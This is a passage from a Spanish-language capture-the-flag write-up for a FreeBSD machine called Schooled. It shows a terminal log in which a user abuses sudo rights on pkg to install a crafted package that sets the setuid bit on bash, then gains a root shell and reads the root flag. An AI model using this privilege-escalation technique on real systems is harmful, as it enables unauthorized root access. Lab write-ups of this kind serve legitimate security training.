 Le damos permiso de ejecucion (`chmod +x <FILENAME>`)  y lo ejecutamos:

```bash
jamie@Schooled:/tmp $ ./privesc                                                                                                                                                             
jamie@Schooled:/tmp $ sudo -u root /usr/sbin/pkg install --no-repo-update *.txz                                                                                                             
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database                                                                                                                 
pkg: Repository FreeBSD cannot be opened. 'pkg update' required                                                                                                                             
Checking integrity... done (0 conflicting)                                                                                                                                                  
The following 1 package(s) will be affected (of 0 checked):                                                                                                                                 
                                                                                                                                                                                            
New packages to be INSTALLED:
        mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
Registering root shell
jamie@Schooled:/tmp $ ls -la /usr/local/bin/bash
-rwsr-sr-x  1 root  wheel  941288 Feb 20  2021 /usr/local/bin/bash
jamie@Schooled:/tmp $ /usr/local/bin/bash -p
[jamie@Schooled /tmp]# whoami
root
[jamie@Schooled /tmp]# cat /root/root.txt 
ad5db29f4c01d63a0beed7--------
```